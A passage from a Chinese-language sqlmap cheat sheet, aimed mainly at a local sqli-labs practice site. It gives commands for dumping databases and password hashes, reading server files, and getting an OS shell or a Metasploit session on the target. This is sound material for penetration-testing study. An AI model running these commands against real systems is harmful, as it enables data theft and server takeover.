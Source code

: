 例如：(1)sqlmap -u "存在注入的URL" -D 数据库名 --tables

(2)sqlmap -u "存在注入的URL" --tables --exclude-sysdbs

**17、sqlmap枚举数据表列**
--columns -D 指定数据库 -T 指定数据表 -C 指定具体字段

例如：sqlmap -u "存在注入的URL地址" -D 数据库名 -T 用户名 --columns

**18、sqlmap枚举数据值**
--dump

例如：sqlmap -u "存在注入的URL地址" -D 数据库名 -T 表名 -C “username，password" --dump

**19、sqlmap枚举schema信息**
定义：用户可以使用此开关--schema检索DBMS模式。模式列表将所有的数据库、表和列，以及它们各自的类型。与--exclude-sysdb结合使用时，只会检索和显示包含非系统数据库的模式的一部分

例如：sqlmap -u "存在注入的URL地址" --schema--batch --exclude-sysdbs

**20、sqlmap检索数据表的数量**
如果用户只想知道表中的条目数，则可以使用此开关。

--count

### 常用参数

```
sqlmap -r http.txt  #http.txt是我们抓取的http的请求包
sqlmap -r http.txt -p username  #指定参数，当有多个参数而你又知道username参数存在SQL漏洞，你就可以使用-p指定参数进行探测
sqlmap -u "http://www.xx.com/username/admin*"       #如果我们已经知道admin这里是注入点的话，可以在其后面加个*来让sqlmap对其注入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   #探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"   #当该网站需要登录时，探测该url是否存在漏洞
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --users      #查看数据库的所有用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --passwords  #查看数据库用户名的密码
有时候使用 --passwords 不能获取到密码，则可以试下
-D mysql -T user -C host,user,password --dump  当MySQL< 5.7时
-D mysql -T user -C host,user,authentication_string --dump  当MySQL>= 5.7时
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --current-user  #查看数据库当前的用户
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --is-dba    #判断当前用户是否有管理员权限
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --roles     #列出数据库所有管理员角色，仅适用于oracle数据库的时候

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --dbs        #爆出所有的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --tables     #爆出所有的数据表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --columns    #爆出数据库中所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"    --current-db #查看当前的数据库
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --tables #爆出数据库security中的所有的表
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --columns #爆出security数据库中users表中的所有的列
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump  #爆出数据库security中的users表中的username列中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100  #爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security -T users --dump-all #爆出数据库security中的users表中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" -D security --dump-all   #爆出数据库security中的所有数据
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --dump-all  #爆出该数据库中的所有数据

sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  #执行指定的sql语句
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-pwn   #执行--os-pwn命令，将目标权限弹到MSF上

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
```